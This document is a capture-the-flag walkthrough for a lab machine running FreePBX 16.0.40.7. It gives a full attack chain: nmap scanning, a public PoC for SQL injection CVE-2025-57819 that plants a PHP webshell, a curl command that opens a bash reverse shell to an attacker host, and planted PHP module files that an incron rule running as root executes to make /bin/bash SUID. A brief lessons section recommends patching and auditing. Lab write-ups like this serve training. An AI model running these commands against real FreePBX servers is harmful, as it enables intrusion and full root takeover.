




Connected
1. Reconnaissance
Ports Scan
nmap -sS -A -sV -p- -T4 -oN nmap-result.txt -oX nmap-result.xml <target-ip>Open Ports:
- 22/tcp – SSH (OpenSSH 7.4)
- 80/tcp – HTTP (Apache 2.4.6 / PHP 7.4.16 →
connected.htb) - 443/tcp – HTTPS (same stack, CN=
pbxconnect)
💡 Info
Register the hostname:
echo '<target-ip> connected.htb' | sudo tee -a /etc/hostsThe web app is FreePBX 16.0.40.7, vulnerable to unauthenticated SQL injection CVE-2025-57819.

[image: FreePBX 16.0.40.7]'">2. Exploitation
FreePBX SQLi → Webshell (CVE-2025-57819)
Use the watchTowr PoC to inject a malicious cron job that drops a PHP webshell:
git clone https://github.com/watchtowrlabs/watchTowr-vs-FreePBX-CVE-2025-57819
cd watchTowr-vs-FreePBX-CVE-2025-57819
python3 watchTowr-vs-FreePBX-CVE-2025-57819.py -H http://connected.htb
⚠️ Webshell
Successful run drops a shell at:
http://connected.htb/this-is-an-ioc-not-actually-watchTowr-lp2j3r445u.php

[image: webshell response]'">Catch a reverse shell via the cmd parameter:
nc -lnvp 4444
curl -G "http://connected.htb/this-is-an-ioc-not-actually-watchTowr-lp2j3r445u.php" \
--data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1"'
[image: reverse shell]'">cat /home/asterisk/user.txt3. Privilege Escalation
incron → SUID bash
Writable module paths plus an incron rule let us run PHP as root when a trigger file is written.
cat /etc/incron.d/*
# /usr/local/asterisk/ha_trigger IN_CLOSE_WRITE /usr/sbin/sysadmin_ha
cat /usr/sbin/sysadmin_ha
# includes freepbx_ha license.php and calls freepbx_ha\incron->rootTrigger()
ls -la /var/www/html/admin/modules/
# asterisk:asterisk writable — freepbx_ha does not exist yetPlant malicious module files, then trip the trigger:
mkdir -p /var/www/html/admin/modules/freepbx_ha/functions.inc/
cat > /var/www/html/admin/modules/freepbx_ha/license.php << 'EOF'
<?php chmod("/bin/bash", 04755); EOF
cat > /var/www/html/admin/modules/freepbx_ha/functions.inc/incron.php << 'EOF'
<?php
namespace freepbx_ha;
class incron {
public function rootTrigger() { chmod("/bin/bash", 04755); }
}
EOF
echo "trigger" > /usr/local/asterisk/ha_trigger
/bin/bash -p
whoami
cat /root/root.txt
[image: root shell]'">
⚠️ Chain
Root runs
sysadmin_ha → includes our PHP → chmod plants SUID on /bin/bash.
4. Flag Paths
- User flag:
/home/asterisk/user.txt - Root flag:
/root/root.txt
Lessons
- Unauthenticated SQLi in FreePBX (CVE-2025-57819) was enough to plant a webshell and land as
asterisk. - Privilege escalation came from a classic writable web module path combined with root
incronautomation — never let service accounts write module trees that root later includes. - Patch FreePBX, restrict module directories, and audit incron rules that invoke privileged helpers.